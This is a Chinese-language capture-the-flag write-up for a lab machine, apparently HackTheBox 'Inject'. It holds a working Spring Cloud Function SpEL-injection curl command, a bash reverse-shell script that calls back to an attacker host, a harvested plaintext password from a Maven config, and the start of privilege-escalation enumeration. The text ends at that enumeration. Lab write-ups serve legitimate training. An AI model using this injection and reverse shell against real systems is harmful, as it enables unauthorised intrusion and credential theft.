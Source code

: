 在我们kali `/tmp` 下新建一个 `shell.sh`文件,并且 `python -m http.server 80` 开启http,让靶机访问并下载shell,本地监听端口

* shell.sh

* ```shell
  bash -i >& /dev/tcp/10.10.11.46/4444 0>&1
  ```

再让靶机执行shell.sh

```shell
 curl -X POST  http://$IP:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/shell.sh")' --data-raw 'data' -vva
```

本地接收到 `frank ` 的shell

第一步,横向到`/home` 的phil用户

```shell
cd ~
//查看当前目录下所有文件和子文件
find .
cat ./.m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

成功得到 `phil`的密码 DocPhillovestoInject123

* user 04193d0e310fefcea681b1047fb507f5

#### root

跟着wp迷迷糊糊拿到了

```shell
id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
//查看组可访问的特殊权限
find / -group staff 2>/dev/null
...
/opt/automation/tasks
/var/local
/usr/local/lib/python3.8
/usr/local/lib/python3.8/dist-packages
/usr/local/lib/python3.8/dist-packages/ansible_parallel.py
...
```

